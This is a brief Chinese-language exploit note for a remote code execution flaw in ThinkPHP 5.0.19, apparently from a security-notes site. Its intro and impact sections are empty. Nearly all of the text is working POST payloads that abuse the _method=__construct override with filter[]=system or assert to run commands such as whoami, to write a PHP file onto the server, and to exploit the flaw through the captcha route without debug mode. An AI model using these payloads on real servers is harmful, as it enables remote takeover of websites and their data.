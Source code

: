 Thinkphp 5.0.19
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    POST 

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET
